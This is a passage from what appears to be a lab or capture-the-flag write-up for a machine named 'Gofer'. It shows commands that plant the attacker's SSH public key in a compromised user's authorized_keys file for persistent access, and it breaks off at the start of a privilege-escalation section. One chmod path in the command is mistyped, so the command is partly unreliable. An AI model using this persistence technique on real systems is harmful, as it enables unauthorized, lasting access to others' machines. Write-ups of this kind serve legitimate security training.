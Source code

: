 ![](screenshots/13-initial-shell.png)

Since a system user was exploited, it was possible to upload an SSH public key for a more stable shell via SSH.

```sh
# Kali
xclip -selection clipboard ~/.ssh/id_rsa.pub

# Gofer
cd ~ && mkdir .ssh && chmod 700 .ssh && echo '<your-pub-key>' >> .ssh/authorized_keys && chmod 600 ./ssh/authorized_keys
```

![](screenshots/14-ssh-shell.png)

# PRIVILEGE ESCALATION - jhudson TO tbuckley

## DISCOVERY
